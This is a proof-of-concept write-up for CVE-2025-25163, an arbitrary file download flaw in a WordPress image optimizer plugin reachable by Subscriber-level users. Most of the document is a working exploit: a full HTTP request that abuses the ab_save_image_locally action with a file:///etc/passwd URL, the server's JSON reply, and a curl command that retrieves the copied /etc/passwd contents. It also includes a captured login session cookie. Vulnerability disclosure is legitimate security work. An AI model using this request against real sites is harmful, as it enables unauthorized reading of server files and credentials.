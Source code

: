 # CVE-2025-25163
Plugin A/B Image Optimizer <= 3.3 - Authenticated (Subscriber+) Arbitrary File Download

# Description

The Plugin A/B Image Optimizer plugin for WordPress is vulnerable to Directory Traversal in all versions up to, and including, 3.3. This makes it possible for authenticated attackers, with Subscriber-level access and above, to read the contents of arbitrary files on the server, which can contain sensitive information.

## Details

- **Type**: plugin
- **Slug**: images-optimizer
- **Affected Version**: 3.3
- **CVSS Score**: 6.5
- **CVSS Rating**: Medium
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2025-25163
- **Status**: Closed

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal:8929
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: wp-settings-1=product_cat_tab%3Dpop%26libraryContent%3Dbrowse; wp-settings-time-1=1739543461; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_f0174336378e6db874da2237e8c05ac1=superadmin%7C1740046038%7C1N8xr9D0vHFOPOWEa8SZgQgnMrADwNBlBuy2clxo5pS%7C1e77f848b7d3c4d32746de6c747e981273be0adb56efe08902946257e29284fe; tk_ai=woo%3AHJ877y%2BjNWutqlxgSuyOlVs2; woocommerce_items_in_cart=1; woocommerce_cart_hash=00dd4812a167442476e6e7ea663fc03e; wp_woocommerce_session_f0174336378e6db874da2237e8c05ac1=1%7C%7C1740046039%7C%7C1740042439%7C%7C81057c84ecef3df59f0857082ef7c538
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

action=ab_save_image_locally&imageUrl=file:///etc/passwd
```

```
{"id":5006,"url":"http:\/\/kubernetes.docker.internal:8929\/wp-content\/uploads\/2025\/02\/1739874247.gif"}
```

```
$ curl http://kubernetes.docker.internal:8929/wp-content/uploads/2025/02/1739874247.gif
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
